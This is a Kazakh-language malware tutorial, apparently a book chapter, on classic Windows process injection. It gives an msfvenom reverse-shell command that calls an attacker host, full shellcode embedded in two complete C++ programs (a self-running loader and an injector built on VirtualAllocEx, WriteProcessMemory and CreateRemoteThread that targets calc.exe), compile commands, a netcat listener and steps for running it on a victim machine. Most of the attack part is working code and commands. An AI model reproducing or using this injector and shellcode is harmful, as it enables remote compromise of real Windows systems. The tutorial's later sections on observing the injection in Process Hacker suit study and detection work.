






\newpage
\subsection{4. процеске классикалық кодты енгізу. қарапайым C++ зиянды бағдарламасы}\label{4.  процеске классикалық кодты енгізу. қарапайым C++ зиянды бағдарламасы}    

﷽

{width="75%"}

Кодты енгізу туралы сөйлесейік. Кодты енгізу дегеніміз не? Ал біз неге олай істейміз?     

Кодты енгізу әдісі - бұл бір процесс, біздің жағдайда бұл біздің зиянды бағдарлама, кодты басқа іске қосылған процеске енгізгендегі қарапайым әдістердің бірі.   

Мысалы, сізде зиянды бағдарлама бар, бұл фишингтік шабуылдан жасалған зиянды бағдарлама немесе сіз құрбанға жеткізе алған троян немесе ол сіздің кодыңызбен жұмыс істейтін кез келген нәрсе болуы мүмкін. Қандай да бір себептермен пайдалы жүктемені басқа процесте іске қосқыңыз келуі мүмкін.    

Мен мұнымен не айтқым келеді? Бұл мақалада біз троянның жасалуын қарастырмаймыз, бірақ мысалы, сіздің пайдалы жүктемеңіз шектеулі өмір сүру уақыты бар `word.exe` процесінің ішінде орындалды делік. Сізде қашықтағы кері байланыс шелл сәтті болды делік, бірақ сіз құрбаныңыздың `word.exe` файлын жабатынын білесіз, сондықтан бұл жағдайда сеансыңызды сақтағыңыз келсе, басқа процеске көшуіңіз керек.    

Бұл постта біз API debug-тің көмегімен пайдалы жүктемені енгізу болып табылатын классикалық әдісті талқылаймыз.    

Алдымен пайдалы жүкті дайындауды бастайық. Қарапайымдылық үшін біз Kali Linux жүйесінен `msfvenom`-нан алынған кері шелл жүктемесін қолданамыз.     

Шабуылдаушының машинасында:    

```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

мұндағы `10.9.1.6` - біздің шабуылдаушы машинаның IP адресі, ал `4444` - тыңдаушыны кейін іске қосатын порт.   

{width="75%"}

Біздің зиянды бағдарламамыздың қарапайым C++ кодынан бастайық:

```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Егер сіз көп кодты түсінбесеңіз, уайымдамаңыз. Мен бұған ұқсас айлалар мен код бөліктерін жиі қолданамын. Кітапты оқыған сайын ұғымдар мен негізгі нәрселерді көбірек түсінесіз деген үміттемін.    

Алдымен осыны тексеріп көрейік.   

Құрастыру:   

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

{width="75%"}

тыңдаушыны дайындау:   

```bash
nc -lvp 4444
```

және жәбірленушінің машинасында мына командамен іске қосыңыз:    

```powershell
.\evil.exe
```

{width="75%"}

Көріп отырғаныңыздай, бәрі жақсы, ойдағыдай жұмыс жасайды.    

Содан соң `evil.exe` файлын зерттеу үшін  [Process Hacker](https://processhacker.sourceforge.io/downloads.php) қосымшасын қолданамыз. Process Hacker - бұл құрылғыда (Windows) қандай процестер орындалып жатқанын көруге, CPU ресурстарын жейтін бағдарламаларды анықтауға және процесспен байланысты желілік қосылымдарды анықтауға мүмкіндік беретін ашық-кодты құрал.     

{width="75%"}

Содан кейін `Желі` қойындысында процесс `10.9.1.6:4444` (шабуылдаушы хосты) байланысын орнатқанын көреміз:    

{width="75%"}

Сонымен, практикалық жаттығу және тәжірибе үшін пайдалы жүктемемізді енгізуді бастайық. Мысалы, `calc.exe` процесі. Сіз мақсатты процеске енгізу немесе басқаша айтқанда пайдалы жүктемеңізді бір машинада басқа процесте қандай да бір түрде орындауды қалайсыз. Мысалы, `calc.exe` процессінде.    


{width="75%"}

Бірінші нәрсе - мақсатты процесте жадты бөлу және буфердің өлшемі кем дегенде пайдалы жүктеме өлшемі болуы керек:     

{width="75%"}

Содан кейін пайдалы жүктемені мақсатты процеске `calc.exe` бөлінген жадқа көшіріңіз:    

{width="75%"}

содан кейін жүйеден пайдалы жүктемеңізді мақсатты процесте орындауды бастау үшін "рұқсат" `сұраңыз`, яғни `calc.exe`.     

{width="75%"}

Ал енді осы қарапайым логиканы кодтауға көшейік.     

Классикалық тұрғыдан мұны істеудің ең танымал комбинациясы debug мақсаттары үшін енгізілген Windows API iшіндегі кейбір функцияларды пайдалану болып табылады.    

Бұл функциялар:    

- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Өте негізгі (қарапайым) мысалдың түрі мынадай:     

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Алдымен сіз процестің `PID` кодын алуыңыз керек, біздің жағдайда бұл `PID`-ті өзіңіз енгізе аласыз. Содан кейін процесті `Kernel32` кітапханасы қамтамасыз ететін [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) функциясымен "ашыңыз":   

{width="75%"}

Әрі қарай құрбан процесс үшін жад буферін бөлуге мүмкіндік беретін `VirtualAllocEx` функциясын қолданамыз **(1)**:

{width="75%"}

Содан кейін `WriteProcessMemory` процестер арасында деректерді көшіруге мүмкіндік береді, сондықтан пайдалы жүктемемізді `calc.exe` процесіне **(2)** көшіреміз **(2)**. Және `CreateRemoteThread` функциясы `CreateThread` функциясына ұқсас, бірақ бұл функцияда жаңа thread **(3)** бастау керек сыртқы процессті көрсетуге болады.    

Ал енді осы кодты құрастырайық:   

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

{width="75%"}

тыңдаушыны (listener) дайындайық:

```bash
nc -lvp 4444
```

және құрбан машинасында алдымен `calc.exe` процесін орындаймыз:    

{width="75%"}

Біз `calc.exe` процесінің идентификаторы `1844` екенін көреміз.     

Содан кейін біздің инжекторды құрбан машинасынан іске қосыңыз:

```powershell
.\evil2.exe 1844
```

{width="75%"}

және ең алдымен, `calc.exe` идентификаторы бірдей екенін және біздің `evil2.exe` жаңа `cmd.exe` процесін жасайтынын және `Желі` қойындысында біздің пайдалы жүктемеміз орындалатынын көреміз (себебі `calc.exe` шабуылдаушы хостымен байланыс орнатады):   

{width="75%"}

Содан кейін `calc.exe` процесін зерттейік. Және `Жад` қойындысына өтіңіз, бұл жерде біз бөлген жад буферін іздей аламыз.    

{width="75%"}

Өйткені бастапқы кодты қарасаңыз, бөгде процесте кейбір орындалатын (executable) және оқылатын (readable) жад буферін бөлеміз:     

{width="75%"}

Process Hacker-де біз *Қорғау (Protection)* бойынша іздеуге және сұрыптауға, төмен айналдыруға және бір уақытта оқылатын және орындалатын аймақты таба аламыз:     

{width="75%"}

мысалы `calc.exe` процесінің жадында мұндай аймақтар көп.     

Бірақ, `calc.exe` процесінде `ws2_32.dll` модулі қалай жүктелетініне назар аударыңыз, ол қалыпты жағдайларда ешқашан болмайды, себебі бұл модуль сокеттерді басқаруға (sockets management) жауапты:    

{width="75%"}

Осылайша сіз кодты басқа процеске енгізе аласыз.      

Бірақ, бір нәрсеге назар аударыңыз. Жазу рұқсатымен (write access) басқа процесті ашу шектеулері бар. Тағы бір басқа қорғаныс түрі Mandatory Integrity Control (MIC) болып табылады. MIC - "Тұтастық деңгейіне" негізделген объектілерге қол жеткізуді басқарудың қорғау әдісі.     

Тұтастықтың 4 деңгейі бар:
- *төмен деңгей (low level)* - жүйенің көп бөлігіне кіруге шектелген процесс (internet Explorer)    
- *орта деңгей (medium level)* - артықшылығы жоқ пайдаланушылар бастаған кез келген процесс үшін әдепкі, сонымен қатар UAC (User Access Control) қосылған болса, әкімші (administrator) пайдаланушылары.    
- *жоғары деңгей (high level)* - әкімші артықшылықтарымен орындалатын процесс.    
- *жүйе деңгейі (system level)* - SYSTEM пайдаланушылары бойынша, әдетте ең жоғары қорғауды қажет ететін жүйе қызметтері мен процесс деңгейі.     

Әзірге бұл мәселеге тереңірек тоқталмаймыз. Алдымен мен мұны өзім анықтауға тырысамын.     

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    

[Github-тағы бағдарлама коды](https://github.com/cocomelonc/2021-09-19-injection-1)
